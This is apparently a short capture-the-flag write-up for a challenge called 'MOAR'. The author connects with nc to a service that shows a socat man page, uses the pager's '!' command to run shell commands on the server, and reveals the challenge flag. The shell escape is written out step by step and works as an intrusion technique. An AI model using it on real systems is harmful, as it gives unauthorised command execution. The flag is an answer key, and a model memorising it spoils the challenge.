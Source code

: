 # MOAR

´´´
nc moar.ctfcompetition.com 1337

>
NAME
       socat - Multipurpose relay (SOcket CAT)

SYNOPSIS
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan

DESCRIPTION
       Socat  is  a  command  line based utility that establishes two bidirec-
       tional byte streams  and  transfers  data  between  them.  Because  the
       streams  can be constructed from a large set of different types of data
       sinks and sources (see address types),  and  because  lots  of  address
       options  may be applied to the streams, socat can be used for many dif-
       ferent purposes.

       Filan is a utility  that  prints  information  about  its  active  file
       descriptors  to  stdout.  It  has been written for debugging socat, but
       might be useful for other purposes too. Use the -h option to find  more

´´´

if you use ! + command, you can run this command on the konsole, so this is what we are going to do

´´´
!ls 
>
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr

!ls home

> moar

!ls home/moar

>disable_dmz.sh


!sh home/moar/disable_dmz.sh

>Disabling DMZ using password CTF{SOmething-CATastr0phic}
home/moar/disable_dmz.sh: 18: home/moar/disable_dmz.sh: cannot create /dev/dmz: Read-only file system

´´´
